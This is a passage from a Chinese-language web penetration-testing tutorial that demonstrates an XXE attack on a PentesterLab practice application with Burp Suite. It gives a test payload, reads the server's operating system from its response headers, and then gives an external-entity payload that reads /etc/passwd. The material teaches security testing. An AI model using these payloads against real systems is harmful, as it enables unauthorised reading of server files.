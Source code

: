```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
```

这意味着这是一个接受 XML 作为输入的请求。因此，我们将使用 Burp Suite 的代理修改输入，以查看应用程序是否接受我们的测试字符串。为此，我们将使用以下输入：

```
<!DOCTYPE foo [ <!ELEMENT  ANY> <!ENTITY bar "cosa">  <!ENTITY barxee "&amp;bar; XEE" > ]> <foo> &amp;barxee; </foo> 
```

如果被接受，应用程序将显示我们在 XML 输入中传递的消息。因此，使用此输入修改`xml`参数，并点击拦截以发送请求。结果将显示在 HTML 网站中，如下所示：

```
</div> 

<div class="container"> 

Hello   

cosa 
      <footer> 
        <p>&amp;copy; PentesterLab 2013</p> 
      </footer> 
```

现在，我们知道漏洞是可利用的，所以我们将发送一个字符串来从服务器中提取文件。要使用 XXE 攻击提取文件，我们需要更多关于托管应用程序的服务器的信息，至少是操作系统。使用响应中包含的标头，可以知道操作系统是什么，如下所示：

```
HTTP/1.1 200 OK 
Date: Sat, 16 Feb 2019 21:17:10 GMT 
Server: Apache/2.2.16 (Debian) 
X-Powered-By: PHP/5.3.3-7+squeeze15 
X-XSS-Protection: 0 
Vary: Accept-Encoding 
Content-Length: 1895 
Connection: close 
Content-Type: text/html 
X-Pad: avoid browser bug 
```

如果您怀疑，可以使用网络工具（如 Nmap ([www.nmap.org](http://www.nmap.org)））来确认，此标头可能会被系统管理员修改。

在这种情况下，服务器是 Debian Linux。因此，我们需要使用符合类 Unix 文件系统的测试字符串进行攻击，如下所示：

```
<!DOCTYPE foo  [<!ENTITY bar SYSTEM "file:///etc/passwd">]> <foo>&amp;bar;</foo> 
```

使用这个，我们将检索`/etc/passwd`文件，在某些情况下，它们作为密码哈希值存储在 Linux 系统中。因此，将原始请求发送到 Repeater 工具，使用此字符串修改`xml`参数，并单击“Go”，如下截图所示：
